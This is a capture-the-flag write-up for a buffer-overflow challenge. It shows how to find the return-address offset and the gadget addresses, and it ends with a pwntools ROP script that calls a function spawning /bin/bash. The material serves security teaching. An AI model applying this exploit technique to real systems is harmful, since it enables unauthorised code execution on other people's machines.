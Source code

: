 ![alt text](bof3.png)

# Gathering Information
the challenge provides a binary,it's source code and a netcat service.
- the binary is ELF 64bit mode.
- when reading the source code, the binary reads 0x100 bytes and the size of our buffer is 60, so we have a buffer overflow vulnerability.
- we have a print_flag function that calls system("/bin/bash") only if the first argument = 0xdeadbeef and the second argument = 0xc0febabe, so we have to use gadgets to
fill the arguments with the required values.
# Exploitation
- find the size of the buffer to overwrite the saved instruction pointer RIP
- find the address of print_flag function
- find gadget addresses : pop rdi and pop rsi
- chain our payload
## Overwriting the saved return pointer address
to overwrite the saved rip, we can use PEDA to create a pattern then find the offset.
- set a breakpoint at ret instruction in main
- pattern create 200
- examine the rsp x $rsp
- pattern offset "IAAe"
we can see that the offset to the saved rip is : 72
## Address of print_flag
inside gdb : 
- p print_flag
the function is at : 0x40121f 
## Gadgets
using ropper, we can find the wanted gadgets : 
- ropper --file task7 --search "pop rdi" #0x0000000000401323
- ropper --file task7 --search "pop ret" #0x0000000000401321
## Payload
```python
from pwn import *                                                                                                                                                                                                                               p = process("./task7")                                                                                                  
poprdi = 0x401323                                                                                                       
poprsi = 0x401321                                                                                                       
print_flag = 0x40121f                                                                                                   
payload = b""                                                                                                           
payload += b"A"*72                                                                                                      
payload += p64(poprdi)                                                                                                  
payload += p64(0xdeadbeef)                                                                                              
payload += p64(poprsi)                                                                                                  
payload += p64(0xc0febabe)                                                                                              
payload += p64(0)                                                                                                       
payload += p64(print_flag)                                                                                             
p.sendline(payload)                                                                                                     
p.interactive()
